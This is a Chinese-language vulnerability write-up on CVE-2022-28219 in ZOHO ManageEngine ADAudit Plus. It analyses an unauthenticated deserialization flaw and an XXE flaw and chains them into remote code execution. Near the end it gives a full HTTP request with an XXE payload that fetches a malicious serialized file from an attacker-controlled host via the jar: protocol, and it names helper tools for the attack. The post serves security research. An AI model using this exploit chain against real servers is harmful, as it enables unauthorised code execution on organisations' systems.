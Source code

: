 # CVE-2022-28219 ZOHO ManageEngine ADAudit Plus XXE注入


# 前言

最近才看到这个洞，正好无事分析一波

# 环境搭建

我这里使用的是Win10安装：https://archives2.manageengine.com/active-directory-audit/7055/ManageEngine_ADAudit_Plus_x64.exe

除此之外还需要有域环境，我是使用了server2008搭建了一个域控

# 漏洞分析

实际上是两个洞结合在一起造成了rce，分别是未授权反序列化和未授权XXE

## 反序列化的点

该漏洞点还可以通过目录穿越指定目标文件

先来看一下`de.laures.cewolf.storage.FileStorage#getChartImage`，通过`getFileName`将传进来的id参数进行拼接且没有任何的过滤，返回文件路径，然后对指定文件进行反序列化

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/cfb4d47a-ceeb-15b7-92e2-98988a1bf099.png)

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/45b36e2d-6a38-2742-5498-a0488db9a72f.png)

而在`de.laures.cewolf.CewolfRenderer#doGet`中会调用`getChartImage`，可以看到前面提到的id参数就是从request中获取的img值，明显可以看到这是一个servlet类

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/88de7e6d-3458-be4a-73e0-88b4e0cddba4.png)

查看一下web.xml，找到了`/cewolf/*`接口，接着进行抓包构造，这里往服务器根目录上放一个cb链构造的序列化文件

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/57a78982-4c1a-ff86-dc0d-64da2f170b0a.png)

构造包，并通过目录穿越指定文件进行反序列化触发漏洞弹出计算器

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/d2a2ba1b-a29c-342b-0e56-fca71855c845.png)


## XXE的点

这里先放一些解析XML的主要函数(可能存在XXE漏洞的函数)

```
javax.xml.parsers.DocumentBuilderFactory
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
DocumentHelper.parseText
DocumentBuilder
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
rg.xml.sax.SAXParseExceptionpublicId
```

这个洞就是`javax.xml.parsers.DocumentBuilderFactory`解析用户传进来的未过滤的参数导致的XXE

在`com.adventnet.sym.adsm.auditing.server.category.ProcessTrackingListener#parseTaskContent`中，对`Task Content`或者`Task New Content`的值进行xml解析触发XXE漏洞

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/7ef15123-3760-aff1-2a29-f6a896b102b1.png)

直接来看`com.adventnet.sym.adsm.auditing.webclient.ember.api.ADAPAgentAPIServlet`和它对应的路由接口，所有请求最后都会进入到`executeAgentRequest`中

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/eda2031f-dd22-346c-7025-f3a359725295.png)

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c772f3b5-26a9-8199-9d84-dc60445fb090.png)

在`executeAgentRequest`中先是将`/api/agent/`后的值提取出来，然后在`this.agentAPIMapping`中匹配取出对应的mappingInfo，这里是我随便输入的值111，而漏洞的点在`/tabs/agentData`中

![9.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5950c75e-d2ae-c569-f3c6-c71d01289963.png)

更改为目标url后通过反射进入到`com.adventnet.sym.adsm.auditing.webclient.ember.api.agent.AgentDataHandler#receiveData`中，最后在`notify`中将post包内容添加到队列中

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c39331e0-1c91-74bc-3b14-5871e0e8644c.png)

![11.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/de9430f8-7e32-4581-e704-842ebcfdc348.png)

而在`notify`函数的类`EventDataAdapter`中的子类`EventDispatcher`中会对消息队列进行处理，这里会提取`DomainName`的值，而该值必须为域环境的域名否则后面会直接抛出异常无法触发漏洞

> 这里Y4er师傅提到了可以通过`/api/agent/configuration/getAgentServerInfo`接口获取完整的fqdn，前提是目标配置了agent

![12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5818c573-b02f-4e24-03cb-8c4e153490dc.png)

在`process`中，`filterEvents`会先对消息进行过滤，其中会提取`EventCode`的值，如果没有的话将会直接抛出异常，而前面讲到的`DomainName`如果值不是域环境中的域名的话`domainMap`会为空然后抛出异常

![13.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/41997199-2e9c-747d-a9ae-29a316a0e44d.png)

![14.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/a956f52c-3a3c-c4a9-10e8-49454ad7e060.png)

接着会进入到`addEventRows`中，这里如果`EventCode`的值在`filterEvents`中不存在话会导致`procesedEventTable`为null就触发不了漏洞

![15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0fb4b315-621d-871a-7b44-a37a3043131b.png)

在`addEventRows`中，会通过`CategoryId`获取`eventCategoryListener`而为了进入漏洞触发点，它需要为`ProcessTrackingListener`，而当`CategoryId`为11时才满足这个条件，而在一开始`filterEvents`对消息队列进行检测时会通过`getCategoriesForEventId`获取`CategoryId`的值，可以看到`EventCode`的值为592或者4688时都符合(可能还有符合的)

![16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/ec774388-a406-d121-6c16-6cf099cbdbb8.png)

![17.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/cce72623-a9d1-4a3e-9f3d-568f1430ff2d.png)

![18.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/6d5514f0-4c37-f974-a5ca-8baa4b043549.png)

最后进入到`getEventRow`中，接着进入到`parseTaskContent`中触发XXE漏洞，这里post包参数还需要有`EventType`和`TimeGenerated`，否则的话会直接抛出异常

![19.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/81bbf06f-fda7-1176-2d89-8544d1b9c497.png)

## 两个点结合rce

这样的话可以通过XXE的jar协议上传一个恶意的序列化文件在通过file协议获取文件的路径，在通过反序列化的点触发即可达到rce的目的

因为jar协议上传文件时如果链接协议断开，文件则会消失，因此使用[BlockingServer](https://github.com/pwntester/BlockingServer)工具使目标文件长时间停留在目标服务器上

开启BlockingServer，其中aaa.png为通过cb链构造的序列化文件，然后通过jar协议发送post包，此时上传的文件为aaa.png

![20.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0e076f55-9b86-2831-8a9f-7e451f173fab.png)

```
POST /api/agent/tabs/agentData HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 309

[
    {
        "DomainName": "test.com",
        "EventCode": 592,
        "EventType": 0,
        "TimeGenerated": 0,
      "Task Content": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [<!ENTITY data SYSTEM \"jar:http://192.168.1.177:9999/qwe.zip!/qwe.txt\"> ]><foo>&data;</foo>"
    }
]
```

接着通过[xxe-ftp-server](https://github.com/LandGrey/xxe-ftp-server)工具查看上传的文件路径，其中如果目标系统为windows的话还要知道目标用户(这里可以先通过列举/Users 获取所有用户名)，此时知道了文件名和路径,直接通过反序列化的点指定文件进行触发漏洞

![21.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/856ea376-8c6f-1abf-8508-7a4f1cde3e41.png)

![22.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/fda51774-0e2d-acf3-45e0-711a38efc3e7.png)

# 参考链接

1. https://y4er.com/post/cve-2022-28219-zoho-manageengine-adaudit-plus-xxe-rce/

